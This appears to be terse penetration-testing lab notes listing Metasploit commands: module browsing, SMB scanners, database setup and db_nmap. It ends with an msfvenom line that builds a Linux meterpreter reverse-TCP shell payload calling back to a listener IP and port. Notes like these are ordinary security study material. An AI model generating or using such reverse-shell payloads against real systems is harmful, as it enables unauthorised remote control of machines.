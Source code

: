 cd /usr/share/metasploit-framework/modules

tree -L 1 auxiliary

`smb_version`
`smb_enumshares`

`systemctl start postgresql`

`msfdb init`

`msfconsole`

`db_status`

`workspace`

`db_nmap`

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.4.20.232 LPORT=1234 -f elf > rev_shell.elf







































